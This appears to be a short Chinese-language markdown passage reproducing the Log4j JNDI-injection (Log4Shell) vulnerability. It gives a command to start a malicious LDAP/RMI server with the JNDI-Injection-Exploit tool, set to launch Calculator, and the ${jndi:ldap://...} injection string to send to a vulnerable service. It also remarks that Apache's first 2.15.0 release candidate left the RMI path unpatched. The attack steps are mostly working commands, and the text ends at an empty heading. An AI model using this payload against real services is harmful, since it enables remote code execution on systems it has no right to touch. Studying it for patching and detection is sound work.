


## 复现

- 启动恶意LDAP / RMI 服务

```
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "/System/Applications/Calculator.app/Contents/MacOS/Calculator" -A "127.0.0.1"
```

工具地址：https://github.com/welk1n/JNDI-Injection-Exploit



- 连接启动的恶意server

```
${jndi:ldap://127.0.0.1:1389/xxxxxx}
```



P.S. Apache官方的 2.15.0-rc1只修复了ldap利用，没有修复rmi利用，然后又紧急发布了第2个补丁2.15.0-rc2

## 各大厂商都中招


